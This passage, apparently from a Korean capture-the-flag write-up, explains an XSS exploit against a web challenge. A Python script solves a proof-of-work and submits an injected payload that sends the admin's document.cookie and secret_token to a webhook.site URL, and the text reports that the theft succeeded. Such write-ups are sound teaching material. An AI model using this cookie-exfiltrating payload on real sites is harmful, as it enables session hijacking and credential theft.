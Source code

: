 {: file="\_head.php" }

javascript로 secret_token 이라는 값으로 사용자의 token 값을 base64 인코딩해서 대입하고 있는 것을 알 수 있습니다.

이렇게 위 정보들을 토대로 XSS 공격 페이로드를 만들 수 있게 되었습니다. XSS 공격을 보내는 페이로드는 PoW 계산이 번거로워 Python 코드로 작성하였습니다.

## Exploit

```python
import time
import sys
import base64
import requests
from hashlib import sha1
client = requests.Session()
def getPow(p):
    for i in range(0, 10000000):
        if sha1(str(i).encode()).hexdigest()[:5] == p:
            return i
cookie = '4903b3e04c24129e61f615b6be8b609f'
ip = '3.39.255.32'
url = f'http://{ip}/cs/report.php'
res = client.get(url=url, headers={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
a = res.text.find('</code>')
p = res.text[a-5:a]
pow = getPow(p)
getcookie_payload = base64.b64encode(f'https://webhook.site/da959eff-f338-4161-b161-8139539f7820?a='.encode()).decode().replace('=','') # %2Bdocument.cookie%2Bsecret_token
res = client.post(url=url, data={
    'url': 'http://localhost/admin/reg_slot.php?headers[]=`);});fetch(atob(`'+str(getcookie_payload)+'`)%2Bdocument.cookie%2Bsecret_token,JSON.parse(atob(`eyJoZWFkZXJzIjp7IkNvbnRlbnQtVHlwZSI6ImFwcGxpY2F0aW9uL2pzb24ifSwibWV0aG9kIjoicG9zdCIsIm1vZGUiOiJjb3JzIiwiY3JlZGVudGlhbHMiOiJpbmNsdWRlIn0`)));setTimeout(function+a(){(`{',
    'pow': pow
}, headers={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
```

{: file="exploit.py" }

위 페이로드를 실행하게 되면 다음과 같이 webhook으로 세션 값과 secret_token 값을 받아올 수 있게 됩니다.

![xss](/assets/img/buffalo-safer-writeup-1.png){: .shadow }
_document.cookie와 secret_token 값 탈취한 모습_

